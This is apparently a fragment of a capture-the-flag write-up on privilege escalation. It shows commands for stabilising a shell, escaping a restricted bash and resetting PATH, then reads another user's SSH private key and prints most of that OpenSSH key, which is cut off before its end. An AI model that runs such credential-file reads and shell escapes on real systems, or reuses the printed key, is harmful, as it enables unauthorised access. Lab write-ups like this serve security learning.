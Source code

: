 ```

# Privilege Escalation

// There is a rbash that i have to bypass.

This command is for stable shell

```script -qc bash /dev/null```

Escaping Rbash

```bash --noprofile```

exporting path variable

```export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games```

// For stablity get shell via ssh

```cat /home/baroi/.ssh/id_rsa```

```
-----BEGIN OPENSSH PRIVATE KEY-----
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